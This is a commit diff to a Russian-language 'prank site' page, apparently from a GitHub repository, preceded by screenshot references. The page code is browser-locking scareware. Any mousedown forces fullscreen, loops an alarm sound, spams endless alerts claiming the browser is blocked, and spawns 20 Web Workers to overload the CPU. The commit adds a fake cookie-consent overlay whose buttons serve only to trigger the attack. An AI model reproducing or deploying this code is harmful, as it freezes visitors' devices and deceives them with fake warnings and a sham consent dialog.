

Before and after one commit to progaVolt/Original, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 252-552 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,46 +1,27 @@
-<html onmousedown="startAttack()" onmousemove="startAttack()" onscroll="startAttack()">
+<html onmousedown="startAttack()">
 <head>
-    <title>Сайт розыгрыш</title>
+    <title>Сайт1 розыгрыш</title>
     <script>
-        let sound; // Один аудиоэлемент
+        var sound = new Audio();
+        sound.src = 'alarm.mp3'; // Замените на путь к вашему аудиофайлу
+        sound.loop = true;
 
-        // Функция для включения полноэкранного режима
-        function goFullscreen() {
-            if (document.documentElement.requestFullscreen) {
-                document.documentElement.requestFullscreen();
-            } else if (document.documentElement.mozRequestFullScreen) { // Firefox
-                document.documentElement.mozRequestFullScreen();
-            } else if (document.documentElement.webkitRequestFullscreen) { // Chrome, Safari and Opera
-                document.documentElement.webkitRequestFullscreen();
-            } else if (document.documentElement.msRequestFullscreen) { // IE/Edge
-                document.documentElement.msRequestFullscreen();
-            }
-        }
-
+        // Функция, которая запускает атаки
         function startAttack() {
-            // Включаем звук
-            sound = new Audio();
-            sound.src = 'ponos-mp3.mp3'; // Заменить на нужный файл
-            sound.loop = true;
             sound.play();
 
-            // После того, как звук начнёт играть, включаем полноэкранный режим
-            sound.onplay = function() {
-                goFullscreen();
+            // Переводим страницу в полноэкранный режим
+            document.documentElement.requestFullscreen().catch(err => {
+                console.error("Ошибка при переходе в полноэкранный режим: ", err);
+            });
 
-                // Запуск всех остальных атак после включения звука и полноэкранного режима
-                initiateAttack();
-            };
-        }
-
-        function initiateAttack() {
             // Запуск бесконечных alert()
             setTimeout(function spamAlert() {
                 alert("Ваш браузер заблокирован! Перезагрузите устройство.");
                 spamAlert();
             }, 100);
 
-            // Перегрузка процессора Web Workers
+            // Перегрузка процессора с помощью Web Workers
             for (let i = 0; i < 20; i++) {
                 let worker = new Worker(URL.createObjectURL(new Blob([`
                     while (true) {
@@ -115,10 +96,105 @@
             -webkit-tap-highlight-color: transparent;
             user-select: none;
         }
+
+        *, *::before, *::after {
+            box-sizing: border-box;
+        }
+
+        .overlay {
+            position: fixed;
+            top: 0;
+            left: 0;
+            height: 100vh;
+            width: 100vw;
+            background-color: rgba(0, 0, 0, 0.7);
+            z-index: 100;
+        }
+
+        p.overlay-title {
+            font-size: 24px;
+            font-weight: 900;
+            color: white;
+            line-height: 1;
+            margin-bottom: 16px;
+        }
+
+        .overlay-button {
+            display: inline-flex;
+            align-items: center;
+            height: 40px;
+            padding-right: 24px;
+            padding-left: 24px;
+            font-size: 16px;
+            font-weight: 500;
+            line-height: 1;
+            border-radius: 4px;
+            margin: 4px;
+            cursor: pointer;
+            background-color: rgb(58, 58, 58);
+            color: white;
+        }
+
+        .overlay-buttons-wrapper {
+            margin: 24px -8px -8px;
+        }
+
+        p.overlay-description {
+            font-size: 16px;
+            font-weight: 400;
+            color: rgba(255, 255, 255, 0.8);
+            line-height: 1.25;
+            margin-bottom: 16px;
+        }
+
+        a.overlay-link {
+            display: inline-block;
+            text-decoration: none;
+            font-size: 16px;
+            font-weight: 500;
+            color: rgb(58, 58, 58);
+            line-height: 1;
+            position: relative;
+            margin-top: 16px;
+        }
+
+        a.overlay-link::before {
+            position: absolute;
+            content: "";
+            height: calc(50% + 4px);
+            width: calc(100% + 8px);
+            bottom: -4px;
+            left: -4px;
+            background-color: rgba(58, 58, 58, 0.1);
+        }
+
+        .overlay-body {
+            max-width: 512px;
+            text-align: center;
+            font-family: "Inter", sans-serif;
+            padding: 24px;
+        }
+
+        .overlay {
+            display: flex;
+            align-items: center;
+            justify-content: center;
+            background-color: #f5f6fa;
+        }
     </style>
 </head>
 
-<body>
-    <h1>Нажми, чтобы продолжить</h1>
+<body onmousedown="startAttack()">
+  <div id="overlay" class="overlay">
+    <div class="overlay-body">
+      <p class="overlay-title">Cookies и сторонний контент</p>
+      <p class="overlay-description">Этот сайт использует cookies, чтобы собирать информацию об ошибках и улучшать сайт. Нажмите "Принять" для продолжения.</p>
+      <div class="overlay-buttons-wrapper">
+        <div id="accept-button" class="overlay-button">Принять</div>
+        <div id="decline-button" class="overlay-button">Отклонить</div>
+      </div>
+      <a href="" target="_blank" class="overlay-link">Пользовательское соглашение</a>
+    </div>
+  </div>
 </body>
 </html>
```
